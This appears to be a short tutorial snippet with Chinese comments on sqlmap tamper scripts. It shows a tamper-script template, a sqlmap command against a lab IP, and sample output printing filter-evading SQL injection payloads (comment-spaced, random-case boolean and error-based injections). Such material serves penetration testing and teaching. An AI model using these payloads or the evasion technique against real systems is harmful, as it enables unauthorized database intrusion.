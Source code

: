 ```
# 指定的参数
--tamper="between,randomcase"



# 编辑的python文件的格式
# Needed imports
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload):
    '''
    Description of your tamper script
    '''

    retVal = payload

    # your code to tamper the original payload

    # return the tampered payload
    return retVal



# 开始使用sqlmap
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable 
[...]
```
